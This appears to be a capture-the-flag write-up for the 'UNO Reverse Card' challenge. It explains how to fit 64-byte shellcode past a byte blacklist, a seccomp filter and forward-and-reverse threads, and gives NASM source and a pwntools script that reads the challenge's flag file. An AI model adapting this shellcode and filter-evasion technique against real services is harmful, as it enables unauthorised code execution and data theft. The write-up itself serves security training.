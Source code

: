 # UNO Reverse Card (Misc 300)
We've done it! We found an open service that will run code we give it! It looks like the server is multithreaded though... Files: uno. Listening on challenge.acictf.com:20109
- The flag is in a file named "flag".
- Shellcode doesn't always need to spawn a shell.

# Analysis
This challenge is all about writing shellcode, shellcode that specifically fits into the parameters this binary gave us. I spent a little time taking notes on what I was and was not allowed to do in the binary, and what parameters there were. (just because they're in the list below doesn't mean I figured them out right away!)

1. Specific shellcode bytes are blacklisted: 0xc2, 0xc3, 0xca, 0xcb, 0x66, 0x6c, 0x61, and 0x67. Of those, most notable, I cannot use the letters in the word flag, and, I can't use a return.

2. `seccomp` is enabled, and only allows certain syscalls. Specifically, read, write, open, close, exit, and a few others are allowed, all else are blocked.

3. There are two threads, one runs the shellcode forwards, the other runs it in reverse. 

4. In order to properly receive output, both threads _must_ return (an exit does not quite achieve this).

5. Before running the shellcode, _all_ file descriptors are closed -- including standard in, standard out, and standard error.

6. Least of all, we only have 64 bytes to fit in our shellcode.

To gloss over a sizable period of testing, I discovered the additional three helpful properties:
1. Since our code is called from a register `call eax`, we know the address of the shellcode is in eax when we begin execution.
2. Similar to the above, when our shellcode executes, we also know that the return address is in rsp. Which will assist us in returning properly.
3. The program output was the shellcode provided, and was read from memory after execution.

# Approach
So, my approach to this was to perform two syscalls. One would open the file `flag`. The second would read in the contents, and put it into the location of the shellcode on the stack, which would allow it to be passed back when the results were read and written to the results temp file.

Since I couldn't use the letters in the word `flag`, I changed them all by one and used an increment and a decrement to change them back when executing. (since these opcodes are only one byte long).

Finally, I used the address in rsp to jump back to where the execution had finished, so that the two threads would return properly. (For the reverse solution, I simply sent the `jmp [rsp]` in reverse).


# Solution
```nasm
section .text
  global _start

_start:
  push rsp
  push rax
  xor rax,rax
  xor rsi,rsi
  mov al,0x60
  inc al
  mov ah,0x68
  dec ah
  shl rax,16
  mov ah,0x6b
  inc ah
  mov al,0x65
  inc al
  push rax
  xor rax,rax
  mov rdi,rsp
  mov al, 2
  syscall
  pop rsi
  mov rdi,rax
  xor rax,rax
  xor rsi,rsi
  pop rsi
  xor rdx,rdx
  mov dl,0x30
  syscall
  pop rsp
  jmp [rsp]
```

```python
from pwn import *

context.log_level = 'debug'

shell = "\x54\x50\x48\x31\xc0\x48\x31\xf6\xb0\x60\xfe\xc0\xb4\x68\xfe\xcc\x48\xc1\xe0\x10\xb4\x6b\xfe\xc4\xb0\x65\xfe\xc0\x50\x48\x31\xc0\x48\x89\xe7\xb0\x02\x0f\x05\x5e\x48\x89\xc7\x48\x31\xc0\x48\x31\xf6\x5e\x48\x31\xd2\xb2\x30\x0f\x05\x5c\xff\x24\x24"


shell = shell + '\x90'*(0x40-len(shell)-3)+'\x24\x24\xff'

p = remote("challenge.acictf.com",20109)
#p = process('./uno')

raw_input()
p.send(shell)

p.interactive()
```
